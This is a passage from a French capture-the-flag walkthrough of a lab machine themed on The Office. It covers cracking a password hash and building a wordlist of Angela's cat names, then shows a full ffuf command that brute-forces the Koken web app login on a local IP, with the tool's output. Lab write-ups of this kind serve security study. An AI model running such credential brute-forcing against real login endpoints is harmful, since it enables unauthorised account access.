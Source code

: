 Pour déposer le hash sur le notebook pas de prise de tête j'utilise juste la commande *echo* avec une redirection.  

Il faut compter 13 minutes pour casser le password *mypassword1234*. Une fois de plus le port SSH étant filtré cela ne nous avance pas...  

Kitty cat
---------

Il est temps de se pencher sur l'indication concernant Angela et les noms de ses chats. L'appli web *Koken* demande un email comme identifiant et d'après ce qu'on a vu auparavant on en déduit qu'il faudrait utiliser *angela@dundermifflin.com*. Pour ce qui est des mots de passe possibles j'ai trouvé [ce wiki Fandom](https://theoffice.fandom.com/wiki/Angela%27s_cats) qui recense la liste des chats.  

Je voulais me servir de CeWL pour générer la wordlist directement depuis la page mais en raison d'un freeze j'ai sagement copié / collé les noms dans une wordlist.  

```plain
Sprinkles
Garbage
Bandit
Princess Lady
Mr. Ash
Petals
Comstock
Ember
Milky Way
Diane
Lumpy
Philip
Tinkie
Crinklepuss
Bandit Two
Pawlick Baggins
Lady Aragorn
```

Cette fois *ffuf* est plus approprié pour le brute force web :  

```plain
$ ffuf -u "http://192.168.56.18:18888/api.php?/sessions" -X POST \
  -H "Content-type: application/x-www-form-urlencoded" \
  -d "email=angela%40dundermifflin.com&password=FUZZ" \
  -H "X-Requested-With: XMLHttpRequest" -H "X-Koken-Auth: cookie" -w /tmp/pass.txt  

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : POST 
 :: URL              : http://192.168.56.18:18888/api.php?/sessions 
 :: Wordlist         : FUZZ: /tmp/pass.txt 
 :: Header           : Content-Type: application/x-www-form-urlencoded 
 :: Header           : X-Requested-With: XMLHttpRequest 
 :: Header           : X-Koken-Auth: cookie 
 :: Data             : email=angela%40dundermifflin.com&password=FUZZ 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
```